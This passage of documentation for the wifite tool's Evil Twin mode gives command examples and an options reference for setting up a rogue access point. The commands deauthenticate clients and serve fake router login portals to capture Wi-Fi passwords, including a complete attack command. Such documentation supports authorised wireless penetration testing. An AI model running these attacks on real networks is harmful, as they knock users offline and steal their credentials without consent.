 ```bash
# Use custom portal template
sudo wifite --eviltwin --eviltwin-template tplink

# Use custom port (if 80 is in use)
sudo wifite --eviltwin --eviltwin-port 8080
```

### Channel Override

```bash
# Force specific channel for rogue AP
sudo wifite --eviltwin --eviltwin-channel 6
```

### Testing Mode

```bash
# Skip credential validation (for testing portal only)
sudo wifite --eviltwin --eviltwin-no-validate
```

### Complete Example

```bash
# Full attack with all options
sudo wifite --eviltwin \
  -b AA:BB:CC:DD:EE:FF \
  --eviltwin-fakeap-iface wlan1 \
  --eviltwin-deauth-iface wlan0mon \
  --eviltwin-template netgear \
  --eviltwin-deauth-interval 8 \
  --eviltwin-port 80
```

---

## Command Reference

### All Evil Twin Options

```bash
# Core Options
--eviltwin                      # Enable Evil Twin attack mode
--eviltwin-fakeap-iface <iface> # Interface for rogue AP (default: auto-detect)
--eviltwin-deauth-iface <iface> # Interface for deauth (default: auto-detect)

# Deauthentication Options
--eviltwin-deauth-interval <sec> # Seconds between deauth bursts (default: 5)

# Captive Portal Options
--eviltwin-template <name>       # Portal template: generic, tplink, netgear, linksys
--eviltwin-port <port>           # Web server port (default: 80)

# Advanced Options
--eviltwin-channel <num>         # Override channel (default: same as target)
--eviltwin-no-validate           # Skip credential validation (testing only)

# Targeting Options (standard wifite options)
-b <BSSID>                       # Target specific BSSID
-e <ESSID>                       # Target specific ESSID
-c <channel>                     # Target specific channel
```
